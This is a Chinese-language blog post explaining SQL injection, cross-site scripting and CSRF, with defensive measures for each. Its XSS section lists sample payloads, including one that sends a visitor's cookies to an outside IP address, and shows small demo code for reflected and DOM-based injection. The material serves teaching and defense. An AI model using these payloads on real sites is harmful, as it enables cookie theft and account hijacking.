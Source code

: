 ```yaml
---
title: 常见的web攻击及防范
date: 2022-03-08 15:41:32
tags:
  - javascript
  - web
  - xss
  - csrf
categories:
  - FrontEnd-Tec
---
```


## SQL 注入

> 所谓 SQL 注入，就是通过把 SQL 命令插入到 Web 表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的 SQL 命令。

### 原理：

SQL 注入攻击指的是通过构建特殊的输入作为参数传入 Web 应用程序，而这些输入大都是 SQL 语法里的一些组合，通过执行 SQL 语句进而执行攻击者所要的操作，其主要原因是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统。

### 被攻击的原因:

> sql 语句伪造参数，然后在对参数进行拼接的后形成破坏性的 sql 语句，最后导致数据库受到攻击

### 防护：

- 永远不要信任用户的输入。对用户的输入进行校验，可以通过正则表达式，或限制长度；对单引号和双"-"进行转换等。
- 永远不要使用动态拼装 sql，可以使用参数化的 sql 或者直接使用存储过程进行数据查询存取。
- 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接。
- 不要把机密信息直接存放，加密或者 hash 掉密码和敏感的信息。
- 应用的异常信息应该给出尽可能少的提示，最好使用自定义的错误信息对原始错误信息进行包装
- sql 注入的检测方法一般采取辅助软件或网站平台来检测，软件一般采用 sql 注入检测工具 jsky，网站平台就有亿思网站安全平台检测工具。MDCSOFT SCAN 等。采用 MDCSOFT-IPS 可以有效的防御 SQL 注入，XSS 攻击等。
- 7.使用预编译语句(PreparedStatement)，这样的话即使我们使用 sql 语句伪造成参数，到了服务端的时候，这个伪造 sql 语句的参数也只是简单的字符，并不能起到攻击的作用。

## 跨站脚本攻击(XSS)

### 原理

跨站脚本攻击（XSS，Cross-site scripting）是最常见和基本的攻击 WEB 网站的方法。攻击者在网页上发布包含攻击性代码的数据。当浏览者看到此网页时，特定的脚本就会以浏览者用户的身份和权限来执行。通过 XSS 可以比较容易地修改用户数据、窃取用户信息，以及造成其它类型的攻击，例如 CSRF 攻击

### 被攻击的原因

```
- <script>alert("反射型 XSS 攻击")</script>

- <script>alert(‘xss’)</script>

- <a href='' onclick=alert('xss')>type</a>

- <img src=http://1.1.1.1/a.jpg onerror=alert('xss')>

- <script>window.location=‘http://192.168.1.1'</script>

- <iframe SRC="http://1.1.1.1/a.jpg" height = "0" width ="0"></iframe>

- <script>new Image().src="http://1.1.1.1/c.php?output="+document.cookie;</script>
```

> 用户输入的数据变成了代码，比如说上面的 script,应该只是字符串却有了代码的作用。

### 三种方式

`反射型 XSS `

只是简单地把用户输入的数据 “反射” 给浏览器，这种攻击方式往往需要攻击者诱使用户点击一个恶意链接，或者提交一个表单，或者进入一个恶意网站时，注入脚本进入被攻击者的网站。

访问 localhost:3000 页面上的恶意链接,恶意链接的地址指向了 localhost:8001,我们启动一个 8001 的服务,这样就产生了反射型 XSS 攻击。攻击者可以注入任意的恶意脚本进行攻击，可能注入恶作剧脚本，或者注入能获取用户隐私数据(如 cookie)的脚本，这取决于攻击者的目的。

```

const http = require('http');
function handleReequest(req, res) {
    res.setHeader('Access-Control-Allow-Origin', '*');
    res.writeHead(200, {'Content-Type': 'text/html; charset=UTF-8'});
    res.write('<script>alert("反射型 XSS 攻击")</script>');
    res.end();
}

const server = new http.Server();
server.listen(8001, '127.0.0.1');
server.on('request', handleReequest);
```

`存储型`

存储型 XSS 会把用户输入的数据 "存储" 在服务器端，当浏览器请求数据时，脚本从服务器上传回并执行。这种 XSS 攻击具有很强的稳定性。

比较常见的一个场景是攻击者在社区或论坛上写下一篇包含恶意 JavaScript 代码的文章或评论，文章或评论发表后，所有访问该文章或评论的用户，都会在他们的浏览器中执行这段恶意的 JavaScript 代码。

`基于DOM`

基于 DOM 的 XSS 攻击是指通过恶意脚本修改页面的 DOM 结构，是纯粹发生在客户端的攻击。

```
<h2>XSS: </h2>
<input type="text" id="input">
<button id="btn">Submit</button>
<div id="div"></div>
<script>
    const input = document.getElementById('input');
    const btn = document.getElementById('btn');
    const div = document.getElementById('div');

    let val;

    input.addEventListener('change', (e) => {
        val = e.target.value;
    }, false);

    btn.addEventListener('click', () => {
        div.innerHTML = `<a href=${val}>testLink</a>`
    }, false);
</script>
```

点击 Submit 按钮后，会在当前页面插入一个链接，其地址为用户的输入内容。如果用户在输入时构造了如下内容：

```
'' onclick=alert(/xss/)
```

用户提交之后，页面代码就变成了：

```
<a href onlick="alert(/xss/)">testLink</a>
```

![](https://user-images.githubusercontent.com/7871813/42721109-cb7ce572-8766-11e8-96d9-9ada8a787827.gif)

### 防护：

- 确保输出到 HTML 页面的数据以 HTML 的方式被转义
- 前端框架中，都会有一份 decodingMap， 用于对用户输入所包含的特殊字符或标签进行编码或过滤，如 <，>，script，防止 XSS 攻击：
- 设置 HttpOnly 严格来说，HttpOnly 并非阻止 XSS 攻击，而是能阻止 XSS 攻击后的 Cookie 劫持攻击。

```
// vuejs 中的 decodingMap
// 在 vuejs 中，如果输入带 script 标签的内容，会直接过滤掉
const decodingMap = {
  '&lt;': '<',
  '&gt;': '>',
  '&quot;': '"',
  '&amp;': '&',
  '&#10;': '\n'
}
```

## 跨站请求伪造攻击（CSRF)

### 原理

跨站请求伪造（CSRF，Cross-site request forgery）是另一种常见的攻击。攻击者通过各种方法伪造一个请求，模仿用户提交表单的行为，从而达到修改用户的数据，或者执行特定任务的目的。为了假冒用户的身份，CSRF 攻击常常和 XSS 攻击配合起来做，但也可以通过其它手段，例如诱使用户点击一个包含攻击的链接

### 被攻击的原因：

- 用户本地存储 cookie，攻击者利用用户的 cookie 进行认证，然后伪造用户发出请求

- 之所以被攻击是因为攻击者利用了存储在浏览器用于用户认证的 cookie，那么如果我们不用 cookie 来验证不就可以预防了。所以我们可以采用 token（不存储于浏览器）认证，为每一个提交的表单生成一个随机 token， 存储在 session 中，每次验证表单 token，检查 token 是否正确。。
- 通过 referer 识别，HTTP Referer 是 header 的一部分，当浏览器向 web 服务器发送请求的时候，一般会带上 Referer，告诉服务器我是从哪个页面链接过来的，服务器基此可以获得一些信息用于处理。那么这样的话，我们必须登录银行 A 网站才能进行转账了。

### 防护：

- 采用 POST 请求,增加攻击的难度.用户点击一个链接就可以发起 GET 类型的请求。而 POST 请求相对比较难，攻击者往往需要借助 javascript 才能实现
- 对请求进行认证，确保该请求确实是用户本人填写表单并提交的，而不是第三者伪造的.具体可以在会话中增加 token,确保看到信息和提交信息的是同一个人
